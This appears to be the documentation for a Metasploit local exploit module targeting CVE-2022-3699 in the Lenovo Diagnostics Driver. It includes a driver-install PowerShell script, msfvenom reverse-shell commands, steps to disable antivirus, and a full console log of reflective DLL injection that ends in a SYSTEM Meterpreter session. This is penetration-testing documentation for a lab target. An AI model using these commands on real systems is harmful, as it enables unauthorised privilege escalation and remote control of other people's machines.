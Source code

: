 ## Vulnerable Application

### Description
Incorrect access control for the Lenovo Diagnostics Driver allows a low-privileged user the ability to issue device 
IOCTLs to perform arbitrary physical/virtual memory read/write.

### Setup

A copy of the vulnerable Lenovo Diagnostics Driver can be downloaded from the github repo that hosts the original PoC
that this module uses: https://github[.]com/alfarom256/CVE-2022-3699/raw/main/LenovoDiagnosticsDriver.sys

I used this script to install the driver by registering a service to load it: 

install-driver.ps1:
```
param (
    [String] $driver,
    [Switch] $start,
    [String] $startType="auto"
)

$version = "1.0"
$helpText = "
install-driver.ps1 v$version

Install a driver by registering a service to load it.

Arguments:
  [String] driver       The driver file to install
  [Switch] start        Start the service to load the driver
  [String] startType    The service start type
                        Choose:  auto, demand
                        Default: auto

Example:
  .\install-driver.ps1 -driver MyDriver -start
"

if (-Not $PSBoundParameters.ContainsKey('driver')) {
    Write-Host "[-] " -ForegroundColor Red -NoNewLine
    Write-Host "A driver must be specified with -driver"
    Write-Host $helpText
    exit
}

if (@("auto", "demand") -NotContains $startType) {
    Write-Host "[-] " -ForegroundColor Red -NoNewLine
    Write-Host "Invalid startType: $startType, (must be: auto, demand)"
    Write-Host $helpText
    exit
}

$name=$driver.TrimEnd('.sys')

if (-Not (Test-Path -Path $env:SystemRoot\System32\Drivers\$name.sys -PathType Leaf)) {
    if (-Not (Test-Path -Path "$name.sys" -PathType Leaf)) {
        Write-Host "[-] " -ForegroundColor Red -NoNewLine
        Write-Host "The specified driver was not found"
        exit
    }
    Write-Host "[*] " -ForegroundColor Blue -NoNewLine
    Write-Host "Installing the driver to System32"
    Copy-Item "$name.sys" -Destination $env:SystemRoot\System32\Drivers\$name.sys
}

sc.exe create $name type= kernel start= $startType error= normal binPath= System32\Drivers\$name.sys DisplayName= $name | Out-Null

if ($start) {
    Write-Host "[*] " -ForegroundColor Blue -NoNewLine
    Write-Host "Starting the new service"
    sc.exe start $name | Out-Null
}
```

## Verification Steps

1. Create a shell for an initial foothold:
   `./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.123.1 LPORT=4444 -f exe > shell.exe`
1. Disable Real-time Virus Protection on the Windows 11 test target.
1. Drag shell.exe onto the Windows 11 test target
1. Start msfconsole
1. Do: `use multi/handler`
1. set LHOST and LPORT
1. Launch `shell.exe` on the test target and receive a shell
1. Do `use windows/local/cve_2022_3699_lenovo_diagnostics_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 11 21H2, with vulnerable version of LenovoDiagnosticsDriver.sys in use. 
```
msf6 > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.123.1
LHOST => 192.168.123.1
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Sending stage (200774 bytes) to 192.168.123.212
[*] Meterpreter session 17 opened (192.168.123.1:4444 -> 192.168.123.212:49692) at 2022-12-12 12:34:15 -0500

meterpreter > bg
[*] Backgrounding session 17...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > set session 17
session => 17
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > set LHOST 192.168.123.1
LHOST => 192.168.123.1
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > set LPORT 4445
LPORT => 4445
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching msiexec to host the DLL...
[+] Process 4292 launched.
[*] Reflectively injecting the DLL into 4292...
[*] Sending stage (200774 bytes) to 192.168.123.212
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 18 opened (192.168.123.1:4445 -> 192.168.123.212:49696) at 2022-12-12 12:41:32 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFTESTING
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
